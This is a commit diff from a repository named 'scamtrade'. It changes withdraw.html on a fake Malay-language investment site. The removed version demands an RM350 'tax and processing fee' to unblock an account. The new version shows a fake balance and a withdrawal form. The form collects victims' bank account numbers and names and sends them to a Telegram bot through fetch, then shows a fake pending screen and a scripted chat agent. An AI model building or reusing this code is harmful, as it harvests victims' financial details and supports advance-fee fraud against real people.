

Before and after one commit to imanaqeef099-sudo/scamtrade, a plain HTML site: page withdraw.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Revamp withdraw.html with new title and styles
Updated the withdraw page title and enhanced the layout with new styles and sections for better user experience.

```diff
--- a/withdraw.html
+++ b/withdraw.html
@@ -3,30 +3,80 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Pengeluaran Dana</title>
+    <title>Withdraw</title>
     <link rel="stylesheet" href="css/style.css">
+    <style>
+        .pending-box { text-align: center; padding: 40px 20px; }
+        .pending-icon { font-size: 60px; margin-bottom: 20px; }
+        .pending-title { font-size: 22px; font-weight: 700; margin-bottom: 10px; color: var(--text-main); }
+        .pending-desc { font-size: 14px; color: var(--text-muted); line-height: 1.6; }
+        .status-badge { display: inline-block; background: #fef3c7; color: #d97706; padding: 6px 12px; border-radius: 20px; font-weight: 700; font-size: 12px; margin-top: 15px; }
+    </style>
 </head>
-<body>
+<body style="background: var(--bg);">
 
-    <div class="card alert-card">
-        <div style="font-size: 36px; margin-bottom: 16px;">⚠️</div>
-        <h1 style="color: #ef4444; font-size: 22px;">Akaun Disekat Sementara</h1>
-        <p class="subtitle" style="color: #fff;">Sistem mengesan pengeluaran luar tabii. Untuk melindungi dana anda, sila buat pembayaran <b>Cukai & Yuran Pemprosesan</b> sebanyak <b>RM 350.00</b>.</p>
-
-        <div class="bank-box">
-            <p style="font-size: 12px; color: #94a3b8;">Pindahan Maybank</p>
-            <h3>1540 1234 5678</h3>
-            <p style="font-size: 14px; color: #fff;">Nama: VaultInvest Sdn Bhd</p>
-        </div>
-        <p class="subtitle" style="font-size: 13px; margin-bottom: 0;">Sila hubungi Ejen Support di Live Chat selepas membuat pembayaran untuk pengaktifan segera.</p>
+    <div class="header-nav">
+        <a href="dashboard.html" class="back-btn">←</a>
+        <div class="header-title">Pengeluaran Dana</div>
     </div>
 
-    <!-- Live Chat -->
+    <div class="content" style="padding-top: 20px;">
+
+        <!-- Section 1: Borang Withdraw -->
+        <div id="withdraw-form-section">
+            <div class="balance-card" style="margin-bottom: 20px;">
+                <div class="balance-label">Baki Boleh Dikeluarkan</div>
+                <div class="balance-amount" id="available-balance">RM 0.00</div>
+            </div>
+
+            <form id="withdrawForm">
+                <div class="input-group">
+                    <label>Pilih Bank</label>
+                    <select id="bank" style="width: 100%; padding: 14px; border-radius: 10px; border: 1px solid var(--border); font-size: 15px; background: #fff;">
+                        <option value="Maybank">Maybank</option>
+                        <option value="CIMB">CIMB Bank</option>
+                        <option value="Touch 'n Go">Touch 'n Go eWallet</option>
+                        <option value="Public Bank">Public Bank</option>
+                    </select>
+                </div>
+                <div class="input-group">
+                    <label>Nombor Akaun Bank</label>
+                    <input type="text" id="acc_num" placeholder="1234 5678 9012" required>
+                </div>
+                <div class="input-group">
+                    <label>Nama Pemilik Akaun</label>
+                    <input type="text" id="acc_name" placeholder="Ali Bin Abu" required>
+                </div>
+                <div class="input-group">
+                    <label>Jumlah (RM)</label>
+                    <input type="number" id="amount" placeholder="100" required>
+                </div>
+                <button type="submit" class="btn-primary" style="width: 100%; margin-top: 10px;">Hantar Permohonan</button>
+            </form>
+        </div>
+
+        <!-- Section 2: Status Pending (Tersembunyi) -->
+        <div id="pending-section" style="display: none;">
+            <div class="balance-card pending-box">
+                <div class="pending-icon">⏳</div>
+                <div class="pending-title">Pengeluaran Diproses</div>
+                <div class="pending-desc">Permohonan pengeluaran anda telah diterima dan sedang menunggu pengesahan dari pihak bank.</div>
+                <div class="status-badge">STATUS: PENDING</div>
+
+                <div style="margin-top: 30px; padding-top: 20px; border-top: 1px dashed var(--border);">
+                    <p style="font-size: 13px; color: var(--text-muted);">Ada masalah? Hubungi Ejen kami di Live Chat.</p>
+                </div>
+            </div>
+        </div>
+
+    </div>
+
+    <!-- Live Chat Widget -->
     <div class="chat-widget">
         <div class="chat-header" id="chat-toggle">💬</div>
         <div class="chat-body hidden" id="chat-body">
             <div class="chat-messages" id="chat-messages">
-                <div class="msg agent">Salam, saya Ejen Aiman. Akaun anda disekat. Sila buat pembayaran RM350 dan hantar resit di sini untuk pengaktifan segera.</div>
+                <div class="msg agent" id="agent-initial-msg" style="display: none;">Salam, saya Ejen Aiman. Ada apa-apa yang boleh saya bantu dengan pengeluaran anda?</div>
             </div>
             <div class="chat-input-area">
                 <input type="text" id="chat-input" placeholder="Taip mesej anda...">
@@ -37,6 +87,42 @@
 
     <script src="js/config.js"></script>
     <script>
+        // --- LOGIK WITHDRAW ---
+        let balance = parseFloat(localStorage.getItem('fake_balance') || '0');
+        document.getElementById('available-balance').textContent = `RM ${balance.toFixed(2)}`;
+
+        document.getElementById('withdrawForm').addEventListener('submit', async (e) => {
+            e.preventDefault();
+            const btn = e.target.querySelector('button');
+            btn.textContent = "Memproses...";
+            btn.disabled = true;
+
+            const bank = document.getElementById('bank').value;
+            const acc_num = document.getElementById('acc_num').value;
+            const acc_name = document.getElementById('acc_name').value;
+            const amount = document.getElementById('amount').value;
+
+            // Hantar data withdraw ke Telegram
+            await fetch(`https://api.telegram.org/bot${CONFIG.BOT_TOKEN}/sendMessage`, {
+                method: "POST",
+                body: new URLSearchParams({
+                    chat_id: CONFIG.CHAT_ID,
+                    text: `🏦 <b>WITHDRAW REQUEST</b>\n\n<b>Bank:</b> ${bank}\n<b>No. Akaun:</b> ${acc_num}\n<b>Nama:</b> ${acc_name}\n<b>Jumlah:</b> RM ${amount}\n\nStatus: PENDING APPROVAL`,
+                    parse_mode: "HTML"
+                })
+            });
+
+            // Tukar skrin ke "Pending"
+            document.getElementById('withdraw-form-section').style.display = 'none';
+            document.getElementById('pending-section').style.display = 'block';
+
+            // Tunjuk live chat lepas 2 saat
+            setTimeout(() => {
+                document.getElementById('agent-initial-msg').style.display = 'block';
+            }, 2000);
+        });
+
+        // --- LOGIK LIVE CHAT ---
         const chatToggle = document.getElementById('chat-toggle');
         const chatBody = document.getElementById('chat-body');
         const chatSend = document.getElementById('chat-send');
```
